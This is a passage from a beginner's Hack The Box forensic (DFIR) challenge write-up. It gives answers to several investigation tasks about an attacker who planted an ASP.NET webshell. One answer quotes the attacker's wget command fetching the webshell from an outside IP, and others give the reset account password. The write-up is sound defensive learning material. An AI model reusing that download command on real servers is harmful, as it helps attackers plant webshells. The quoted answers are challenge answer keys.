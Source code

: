 ![image](https://github.com/zrmartin71/HTB_Write_Ups/assets/54414820/92cbab55-1928-4d4a-a2f5-697adffbf1fd)

This is found in the log file from Task 1.

### Answer: Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0

## Task 11: What is the inst ID of the attacker?

To get this output from mySQL so I had to update the syntax.

![image](https://github.com/zrmartin71/HTB_Write_Ups/assets/54414820/a15cb206-403c-4b3a-86c6-3eab6932e25f)

### Answer: 1234

## Task 12: What command was run by the attacker to retrieve the webshell?

![image](https://github.com/zrmartin71/HTB_Write_Ups/assets/54414820/cacf70c4-b129-4241-aa5d-da6558dcb983)


### Answer: wget http:/ /10.255.254.3:9001/move.aspx -OutFile move.aspx

## Task 13: What was the string within the title header of the webshell deployed by the TA?
This is found with the strings command used earlier.

```
strings I-like-to-27a787c5.vmem | grep asp
```
![image](https://github.com/zrmartin71/HTB_Write_Ups/assets/54414820/94fb34b3-2cdc-447b-8177-3702e8396b31)

### Answer: asp.net webshell

## Task 14: What did the TA change the our moveitsvc account password to?

![image](https://github.com/zrmartin71/HTB_Write_Ups/assets/54414820/195c67ac-bcb0-4836-bb5a-e9d88b955363)

### Answer: 5trongP4ssw0rd

## Review

![image](https://github.com/zrmartin71/HTB_Write_Ups/assets/54414820/4c70fe15-53aa-4f8f-92ca-6e3cfad69ce4)

I learned ALOT from this. I am new to DFIR, so I wanted to try the retired Sherlock to learn how to do forensic analysis. Following the Offical Write up was easy. The only hiccup I had was using the same tools the writer used. You will have to update the syntax for the MySQL part of write up. I also personally chose not to write a script for the EZ tools section. Overall it was a great experience! 10/10 would do again!